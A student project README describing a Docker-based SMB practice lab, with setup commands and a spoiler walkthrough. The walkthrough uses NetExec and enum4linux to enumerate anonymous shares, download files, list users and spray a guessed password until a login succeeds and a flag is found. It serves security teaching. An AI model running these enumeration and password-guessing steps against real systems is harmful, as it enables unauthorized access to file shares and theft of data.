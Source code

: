 
### Author: Cooper Wiegand
### Directive: CSC840 - Final Presentation

### > [YouTube Walkthough](https://youtu.be/NMGdlUtzD0s)

# SMB Playground: Featuring NetExec & enum4linux

### Introduction
In the field of cyber operations, it is imperative to not only understand popular protocols and services along with the tools that interface with them but to also have the space needed to hone one's skills. Utilizing a modular docker-based lab that can be rapidly spun up or down without affecting the host system opens the door to exploring many services, misconfigurations, and vulnerabilities.

We will be spinning up a simple lab environment with an attack container and an SMB (Server Message Block) server. SMB is commonly used in enterprise environments for file sharing and the service is a popular target for attackers. The docker-ized attack container comes pre-baked with **NetExec** and **enum4linux** so that one may work their way from a lowly anonymous-user all the way up to a priveledged user accessing restricted files.

### Main Topics
1. **SMB Enumeration**  
Utilizing tools like NetExec and enum4linux, identify misconfigured SMB shares, capture exposed sensitive files, and discover users.

2. **Using Docker for Security Labs**  
"Learning-by-doing" The Docker-based setup illustrates how to create a self-contained, reusable environment for security testing. Add additional vulnerable containers to this "lab" to explore other misconfigurations, vulnerabilities, and tools.

3. **Authentication and Data Recovery**  
Leverage discovered information to construct credentials elevating your access to the SMB server, demonstrating the impact of poor access control policies.

### Final Notes
This exercise demonstrates the importance of securing SMB configurations by enforcing strict access controls, using strong passwords, and disabling unnecessary services like guest access. The modular design of the Docker environment opens the door to further exploration, such as testing advanced tools, vulnerabilities, and attack techniques. Future work could expand on this demonstration by incorporating attacks like SMB relay, lateral movement, or evasion techniques to bypass detection while interacting with SMB services.

### Additional Resources
- [NetExec Wiki](https://www.netexec.wiki/smb-protocol) for SMB
- [enum4linux Cheatsheet](https://highon.coffee/blog/enum4linux-cheat-sheet/)

# Included Files
```
CSC840_Final_Wiegand/
├── attacker/
│   ├── Dockerfile
├── smb1/
│   ├── Dockerfile
│   ├── setup.sh
├── docker-compose.yml
├── README.md
```

# Quick Start

[Linux] Install docker and docker-compose
```bash
# Install Prereqs
sudo apt-get update
sudo apt install -y apt-transport-https ca-certificates curl software-properties-common

# Add Docker's GPG Key and Repo
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null

# Install Docker
sudo apt-get update
sudo apt-get install -y docker-ce docker-ce-cli containerd.io

# Install docker-compose
sudo curl -L "https://github.com/docker/compose/releases/latest/download/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
sudo chmod +x /usr/local/bin/docker-compose

# Start Docker Service
sudo systemctl enable docker
sudo systemctl start docker

# Verify Docker & docker-compose
docker --version
docker-compose --version
```

# Build and Boot

Build/Restart Environment
```
sudo docker-compose down
sudo docker-compose build; sudo docker-compose up -d
```

Drop into attack container
```
docker exec -it attacker /bin/bash
```

# [Walkthrough/Spoilers] Exploring NetExec and enum4linux

### Look through the [NetExec Wiki](https://www.netexec.wiki/smb-protocol) for SMB

Scan for smb servers
```
nxc smb 192.168.1.0/24
```

Scan for anonymous shares and spider results
```
nxc smb 192.168.1.0/24 -u '' -p '' --shares
nxc smb 192.168.1.2 -u '' -p '' -M spider_plus
nxc smb 192.168.1.2 -u '' -p '' -M spider_plus -o DOWNLOAD_FLAG=True
```

Scan to discover publicly exposed users
```
enum4linux 192.168.1.2
```

Use discovered users with password until you find a match
```
nxc smb 192.168.1.2 -u '' -p '' --shares

nxc smb 192.168.1.2 -u 'e76543210' -p 'strongpassword123!' --local-auth --shares
nxc smb 192.168.1.2 -u 'e27481930' -p 'strongpassword123!' --local-auth --shares
nxc smb 192.168.1.2 -u 'e90874321' -p 'strongpassword123!' --local-auth --shares
```

Re-Spider target as a credentialed user
```
nxc smb 192.168.1.2 -u 'e90874321' -p 'strongpassword123!' --local-auth -M spider_plus -o DOWNLOAD_FLAG=True
```

### _Explore the files recovered from the restricted share to find a flag.txt_
